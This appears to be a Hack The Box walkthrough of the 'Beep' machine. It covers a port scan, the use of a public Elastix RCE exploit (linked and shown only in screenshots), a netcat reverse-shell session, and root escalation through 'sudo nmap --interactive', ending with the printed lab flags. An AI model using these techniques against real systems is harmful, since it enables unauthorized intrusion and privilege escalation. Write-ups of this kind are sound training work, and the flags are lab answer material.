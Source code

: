```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit]
---
```


### Let see the IP Address first →

```bash
IP : 10.10.10.7
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.10.7      
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-07-19 19:47 IST
Nmap scan report for 10.10.10.7
Host is up (0.19s latency).
Not shown: 65520 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp   open  smtp?
|_smtp-commands: Couldnt establish connection on port 25
80/tcp   open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https:/10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp  open  pop3?
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp  open  imap?
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2023-07-19T14:49:38+00:00; +2s from scanner time.
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp  open  status     1 (RPC #100024)
993/tcp  open  imaps?
995/tcp  open  pop3s?
3306/tcp open  mysql      MySQL (unauthorized)
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax?
5038/tcp open  asterisk   Asterisk Call Manager 1.1
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1s
```

## Web Enumeration ➡️

This site doesn’t work with that old TLS 1.2 version of firefox browser so I redirected the site with the help of burpuite →

![Untitled](/Vulnhub-Files/img/Beep/Untitled.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%201.png)

Now lets see the site →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%202.png)

Now I recon about elastix exploit and I found one exploit interesting which leads to RCE directly so let’s try it out now → [*Exploit*](https://www.exploit-db.com/exploits/18650)

But this exploit needs modification so I find this exploit modified from this [**site**](https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/) and use it →

![Untitled](/Vulnhub-Files/img/Beep/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Beep/Untitled%204.png)

In response to that I got a reverse shell as directed and after following this exploit path I got root too →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Beep]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.213] from (UNKNOWN) [10.10.10.7] 38362
which python
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ whoami
whoami
asterisk
bash-3.2$ pwd
pwd
/tmp
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http:/www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# cd /root
cd /root
sh-3.2# ls -al
ls -al
total 16308
drwxr-x---  2 root root     4096 Jul 16  2019 .
drwxr-xr-x 22 root root     4096 Jul 19 13:15 ..
-rw-------  1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-rw-------  1 root root     1067 Aug 25  2017 .bash_history
-rw-r--r--  1 root root       24 Jan  6  2007 .bash_logout
-rw-r--r--  1 root root      191 Jan  6  2007 .bash_profile
-rw-r--r--  1 root root      176 Jan  6  2007 .bashrc
-rw-r--r--  1 root root      100 Jan  6  2007 .cshrc
-r-xr-xr-x  1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r--  1 root root    18433 Apr  7  2017 install.log
-rw-r--r--  1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r--  1 root root        1 Apr  7  2017 postnochroot
-rw-------  1 root root       33 Jul 19 13:15 root.txt
-rw-r--r--  1 root root      129 Jan  6  2007 .tcshrc
-r-xr-xr-x  1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
sh-3.2# cat root.txt
cat root.txt
e9cbc82da8917eed8f46488876238fa2
sh-3.2# ls -al /home
ls -al /home
total 28
drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
drwxr-xr-x 22 root       root       4096 Jul 19 13:15 ..
drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
sh-3.2# cd /home/fanis 
cd /home/fanis
sh-3.2# ls -al
ls -al
total 32
drwxrwxr-x 2 fanis fanis 4096 Apr  7  2017 .
drwxr-xr-x 4 root  root  4096 Apr  7  2017 ..
-rw------- 1 fanis fanis  114 Apr  7  2017 .bash_history
-rw-r--r-- 1 fanis fanis   33 Apr  7  2017 .bash_logout
-rw-r--r-- 1 fanis fanis  176 Apr  7  2017 .bash_profile
-rw-r--r-- 1 fanis fanis  124 Apr  7  2017 .bashrc
-rw-rw-r-- 1 fanis fanis   33 Jul 19 13:15 user.txt
sh-3.2# cat user.txt
cat user.txt
e11bbf4e23bcd880ec590402fa0c9a8e
sh-3.2#
```